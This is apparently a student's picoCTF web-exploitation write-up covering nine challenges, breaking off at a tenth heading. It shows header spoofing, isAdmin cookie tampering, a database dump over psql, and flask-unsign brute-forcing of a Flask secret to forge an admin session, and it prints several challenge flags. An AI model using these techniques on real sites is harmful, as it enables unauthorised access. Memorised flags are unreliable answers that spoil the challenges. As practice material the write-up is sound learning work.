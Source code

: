 ﻿**WEB EXPLOITATION**

PICOCTF

1\.Inspect Element

- Found the flag in the body tab of website when I inspected it.
- Anyways they should have kept the flag hidden in head tab then it would have related to Histiaeus as he hid messages on the head

2\.Intro To Burp

- Did a lightweight scan on website using burp(have professional version somehow)
- Didn’t find anything except one session cookie
- So registered while intercept was on 
- Forwarded it and did the same for otp form also
- Deleted otp= from request and got the flag

3\.Dont-use-client-side

- A verify function was given where flag was split in pieces of four
- Simple reconstruction- picoCTF{no\_clients\_plz\_b706c5}

4\.Where are The robots

- Obviously the creator would not want us to look at robots.txt
- Found / Disallow: /1bb4c.html
- Found the flag there

5\.SQL direct

- After downloading psql and connecting it, I had to google some basic commands
```bash
    (base) mehul@Mehuls-MacBook-Air ~ % psql -h saturn.picoctf.net -p 54826 -U postgres
Password for user postgres: 
psql (14.13 (Homebrew), server 15.2 (Debian 15.2-1.pgdg110+1))
WARNING: psql major version 14, server major version 15.
         Some psql features might not work.
Type "help" for help.

postgres=# \l
                                 List of databases
   Name    |  Owner   | Encoding |  Collate   |   Ctype    |   Access privileges   
-----------+----------+----------+------------+------------+-----------------------
 pico      | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
           |          |          |            |            | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
           |          |          |            |            | postgres=CTc/postgres
(4 rows)
postgres=# \c pico
psql (14.13 (Homebrew), server 15.2 (Debian 15.2-1.pgdg110+1))
WARNING: psql major version 14, server major version 15.
         Some psql features might not work.
You are now connected to database "pico" as user "postgres".
pico=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | flags | table | postgres
(1 row)

pico=# \d flags
                        Table "public.flags"
  Column   |          Type          | Collation | Nullable | Default 
-----------+------------------------+-----------+----------+---------
 id        | integer                |           | not null | 
 firstname | character varying(255) |           |          | 
 lastname  | character varying(255) |           |          | 
 address   | character varying(255) |           |          | 
Indexes:
    "flags_pkey" PRIMARY KEY, btree (id)

pico=# SELECT * FROM FLAGS
pico-# ;
 id | firstname | lastname  |                address                 
----+-----------+-----------+----------------------------------------
  1 | Luke      | Skywalker | picoCTF{L3arN_S0m3_5qL_t0d4Y_31fd14c0}
  2 | Leia      | Organa    | Alderaan
  3 | Han       | Solo      | Corellia
(3 rows)

pico=# 
```
6\.Some assembly Required-1
- found that it was interacting with /G82XCw5CX3.js 
- when i opened the js i found /JIFxzHyW8W some obsure wasm probably
- using some wasm decompilers(it didnt even require that) i found the flag

7\.Who are you?
- Honestly the best challenge i have come across till now
- had to use some help but learnt a lot
- this is the orignal get request:
```bash
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
- first had to change the useragent to PicoBrowser as it said only PicoBrowser is allowed
- Then i said it didnt trust users from other sites so had to cahnge the referer to the host only which is Referer: mercury.picoctf.net:52362
- Then it said site worked only in 2018 so i added Date: Wed, 21 Oct 2018 07:28:00 GMT
- Then had to make the request untarckable by DNT:1
- then it said the site worked only in sweden so i set the ip address for seden in X-Forwarded-For: 92.44.242.19
- finally  i also had to change the language to get the flag
- this is the final get request:
```bash
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Accept-Language: sv-sv,sv;q=0.9
Date: Wed, 21 Oct 2018 07:28:00 GMT
DNT:1
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Referer: mercury.picoctf.net:52362
X-Forwarded-For: 92.44.242.19
Connection: keep-alive
```
8\.Power cookies
- Opened Burp Suite as usual while intercept was on
- when i clicked on continue as guest this was the get request 
``` bash 
GET /check.php HTTP/1.1
Host: saturn.picoctf.net:61613
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://saturn.picoctf.net:61613/
Accept-Encoding: gzip, deflate, br
Cookie: isAdmin=0
Connection: keep-alive
``` 
- i just changed cookie to 1 to get the flag

9\. Most Cookies
- downlaoded flask-unsign
- looked how server.py worked
- put all the cookies in cookies.txt using echo
```bash 
white chocolate macadamia" > cookies.txt
(base) mehul@Mehuls-MacBook-Air ~ % flask-unsign -u --server "http://mercury.picoctf.net:6259" --wordlist cookies.txt
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZzHbYg.w4jlmorAeZI4g8H9OBKzEPLdNQg
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
(base) mehul@Mehuls-MacBook-Air ~ % flask-unsign -s --c "{'very_auth': 'admin'}" -S gingersnap
usage: flask-unsign [-h] [-d] [-u] [-s] [-l] [-c [COOKIE]] [--secret SECRET] [--salt SALT]
                    [--wordlist WORDLIST] [--threads THREADS] [--no-literal-eval] [--server SERVER]
                    [--insecure] [-o OUTPUT] [-p PROXY] [--cookie-name COOKIE_NAME] [-U USER_AGENT]
                    [-q] [-C CHUNK_SIZE] [-v]
flask-unsign: error: ambiguous option: --c could match --cookie, --cookie-name, --chunk-size
(base) mehul@Mehuls-MacBook-Air ~ % flask-unsign -s --cookie "{'very_auth': 'admin'}" -S gingersnap
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZzHcaA.TJeYJKO5shWe2Nyrkz8cbYSFQlE
(base) mehul@Mehuls-MacBook-Air ~ % 
```
- put this value as session value and got the flag

10\. More sqli
